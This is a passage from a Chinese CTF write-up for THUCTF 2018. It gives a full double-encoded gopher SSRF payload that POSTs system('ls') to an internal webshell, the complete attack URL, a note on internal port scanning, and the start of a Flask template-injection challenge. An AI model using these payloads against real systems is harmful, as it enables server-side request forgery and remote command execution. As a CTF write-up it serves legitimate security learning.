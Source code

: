 运行得到结果：

```
_POST%2520/webshe11111111.php%2520HTTP/1.1%250D%250AHost%253A127.0.0.1%250D%250AUser-Agent%253A%2520Mozilla/5.0%2520%2528Windows%2520NT%252010.0%253 B%2520Win64%253 B%2520x64%253 B%2520rv%253A61.0%2529%2520Gecko/20100101%2520Firefox/61.0%250D%250AAccept%253A%2520 text/html%252Capplication/xhtml%252 Bxml%252Capplication/xml%253 Bq%253D0.9%252C%252A/%252A%253 Bq%253D0.8%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253 Bq%253D0.8%252Czh-TW%253 Bq%253D0.7%252Czh-HK%253 Bq%253D0.5%252Cen-US%253 Bq%253D0.3%252Cen%253 Bq%253D0.2%250D%250AAccept-Encoding%253A%2520 gzip%252C%2520deflate%250D%250AReferer%253A%2520 http%253A//localhost%253A63342/php/webshe11111111.php%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252034%250D%250ACookie%253A%2520Phpstorm-c2b818%253Dbe05b847-c935-441b-bdb7-465508c336b0%250D%250AConnection%253A%2520close%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250A%250D%250Aadmin%253Dh1admin%2526 hacker%253Dsystem%2528%2527ls%2527%2529%253 B%250D%250A
```

最终访问

```
http://babyweb.thuctf2018.game.redbud.info:8016/?url=gopher://127.0.0.1:80/_POST%2520/webshe11111111.php%2520HTTP/1.1%250D%250AHost%253A127.0.0.1%250D%250AUser-Agent%253A%2520Mozilla/5.0%2520%2528Windows%2520NT%252010.0%253 B%2520Win64%253 B%2520x64%253 B%2520rv%253A61.0%2529%2520Gecko/20100101%2520Firefox/61.0%250D%250AAccept%253A%2520 text/html%252Capplication/xhtml%252 Bxml%252Capplication/xml%253 Bq%253D0.9%252C%252A/%252A%253 Bq%253D0.8%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253 Bq%253D0.8%252Czh-TW%253 Bq%253D0.7%252Czh-HK%253 Bq%253D0.5%252Cen-US%253 Bq%253D0.3%252Cen%253 Bq%253D0.2%250D%250AAccept-Encoding%253A%2520 gzip%252C%2520deflate%250D%250AReferer%253A%2520 http%253A//localhost%253A63342/php/webshe11111111.php%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252034%250D%250ACookie%253A%2520Phpstorm-c2b818%253Dbe05b847-c935-441b-bdb7-465508c336b0%250D%250AConnection%253A%2520close%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250A%250D%250Aadmin%253Dh1admin%2526 hacker%253Dsystem%2528%2527ls%2527%2529%253 B%250D%250A
```

成功执行 ls 命令！发现目录下有一个 fl11111aaaaaggggg.php 文件，使用 file 协议读取得到：

```
Flag{Th1 s_Easy_SSRF}
```

当然本题还有一个可能存在问题的点，我也测试了，就是使用 SSRF 扫描内网端口，发现 3389 MYSQL 的服务，有可能存在 gopher 安全问题，这里记录一下。

PS：推荐一个很好的 **SSRF + Gopher** 的工具：[https://github.com/tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)

### Flask

这道题是**模板注入**结合 **Flask session** 安全的题目。模板注入的利用格式如下：

```
flask.thuctf2018.game.redbud.info:8000/welcome?msg={{payload}}
```

测试后端过滤的内容，发现如下内容被过滤了：

```
config
(
)
```

